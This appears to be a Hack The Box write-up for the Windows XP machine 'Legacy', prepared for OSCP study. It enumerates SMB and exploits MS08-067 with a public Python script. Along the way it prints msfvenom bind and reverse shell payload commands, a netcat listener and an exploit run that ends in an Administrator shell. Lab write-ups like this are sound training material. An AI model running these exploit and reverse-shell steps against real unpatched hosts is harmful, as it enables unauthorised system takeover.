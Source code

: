 ```yaml
---
layout: post
title: HTB Legacy Writeup  
subtitle: Easy Box
thumbnail-img: /assets/img/legacy.png
tags: [HTB, OSCP, EASY]
---
```


# Notes
![Legacy](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/legacy.png)


| Name | Legacy |
| :------ |:--- |
| OS | Windows |
| RELEASE DATE | 14 Mar 2017 |
| DIFFICULTY | Easy |

IP:10.10.10.4

# Port Scan
Like every box, I will start off with a quick nmap scan to identify open ports 

`nmap -p- 10.10.10.4 -oN allPorts.nmap --min-rate 1000 -v -Pn`
```
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

I did a more in-depth scan on each of the ports above but `nmap` was not able to identify much more

`nmap -p 135,139,445 -sVC 10.10.10.4 -oN scriptScan.nmap`
```
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc?
139/tcp open  netbios-ssn?
445/tcp open  microsoft-ds?

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```
# SMB
`crackmapexec` or `cme` is a great tool to enumerate SMB. It can enumerate shares, service versions, host OS info, and much more. Running it against `legacy` shows that this machine is running `Windows 5.1`

```
┌─[✗]─[zon@pwn]─[~/htb/legacy]
└──╼ $cme smb 10.10.10.4
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
```

I was not sure what `Windows 5.1` is so I did a quick google search for `what is windows 5.1` and the first [link](https://encyclopedia2.thefreedictionary.com/Windows+5.1) showed that it is `Windows XP`. `XP` hit end of life on April 8th 2014, so this is super outdated. 

I did another google search for `windows xp smb exploit` and the first couple of results mentioned [MS08–067](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067). This bug appears to be an unauthenticated RCE via an RPC request. 

#### Exploit
There is a `metasploit` exploit that can be used against this machine located at `exploit/windows/smb/ms08_067_netapi`. But since I'm preparing for my OSCP I will be doing it the manual way.

I found a repo on [github](https://github.com/andyacer/ms08_067) that has a guide on how to exploit this. I first cloned the repo `git clone https://github.com/andyacer/ms08_067/` and made sure `impacket` was installed on my machine. If its not installed on your machine this is how you can get it:
```
git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
cd impacket
pip install .
```

The first thing to do is generate a payload `msfvenom -p windows/shell_bind_tcp RHOST=10.10.14.x LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows`. Then replace the shell code in the script with the output of `msfvenom`.

```
# ------------------------------------------------------------------------
# REPLACE THIS SHELLCODE with shellcode generated for your use
# Note that length checking logic follows this section, so there's no need to count bytes or bother with NOPS.
#
# Example msfvenom commands to generate shellcode:
# msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Reverse TCP to 10.11.0.157 port 62000:
shellcode=(
PUT MSFVENOM OUTPUT HERE!!!!
)
# ------------------------------------------------------------------------
```

I took a guess that this machine was running Windows XP SP3 English so I used `6` for the OS version. 

Run a listener
```
┌─[✗]─[zon@pwn]─[~/htb/legacy]
└──╼ $sudo nc -lvnp 443
```

Run the exploit
```
┌─[✗]─[zon@pwn]─[~/htb/legacy/ms08_067]
└──╼ $python2 ms08_067_2018.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

And I get a shell as Administrator
```
┌─[✗]─[zon@pwn]─[~/htb/legacy]
└──╼ $sudo nc -lvnp 443
[sudo] password for zon: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>  
```
